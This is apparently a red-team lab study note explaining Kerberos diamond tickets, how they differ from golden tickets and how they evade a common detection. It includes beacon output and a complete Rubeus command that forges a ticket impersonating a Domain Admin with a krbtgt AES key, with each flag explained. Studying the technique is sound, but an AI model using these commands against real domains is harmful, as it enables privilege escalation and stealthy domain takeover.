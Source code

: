 ## Diamond Tickets

<mark style="color:yellow;">Like a golden ticket</mark>, <mark style="color:$success;">a diamond ticket is essentially a TGT which can be used to access any service as any user</mark>.&#x20;

A golden ticket is forged entirely offline, encrypted with the <mark style="color:yellow;">`krbtgt`</mark> hash of that domain, and then passed into a logon session for use.

Since <mark style="color:green;">Domain Controllers</mark> do not track TGTs, they have legitimately issued, they <mark style="color:$success;">will happily accept TGTs that are encrypted using its own</mark> <mark style="color:$success;"></mark><mark style="color:$success;">`krbtgt`</mark> <mark style="color:$success;"></mark><mark style="color:$success;">hash</mark>.

### Detecting Usage of Golden Tickets

One tactic to detect golden tickets is to look for `TGS-REQ`s taht have no corresponding `AS-REQ`.

### Crafting a Diamond Ticket

A diamond ticket is made by modifying the fields of a legitimate TGT that was issued by a DC.

**This is ultimately achieved by:**

1. Requesting a TGT
2. Decrypting it using the domain's <mark style="color:yellow;">`krbtgt`</mark> hash
3. Modifying the desired fields of the ticket
4. Then, re-encrypting it

Making it **undetectable using the tactic mentioned above**.

This _**ultimately overcomes the aforementioned shortcoming of a golden ticket**_ because any `TGS-REQ`s will have a preceding `AS-REQ`.

**Proving we have no access to the DC:**

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\dc-2.dev.cyberbotic.io\c$
[-] could not open \\dc-2.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```

**Use Rubeus to create a Diamond Ticket:**

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1106 /groups:512 /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /nowrap
```

**Syntax:**

* <mark style="color:yellow;">`/tgtdeleg`</mark> uses the Kerberos `GSS-API` to obtain a usable TGT for the current user without needing to know their password, NTLM/AES hash, or elevation on the host.
* <mark style="color:yellow;">`/ticketuser`</mark> is the username of the user to impersonate.
* <mark style="color:yellow;">`/ticketuserid`</mark> is the domain RID of that user.
* <mark style="color:yellow;">`/groups`</mark> are the desired group RIDs (`512` being Domain Admins).
* <mark style="color:yellow;">`/krbkey`</mark> is the `krbtgt` AES256 hash.

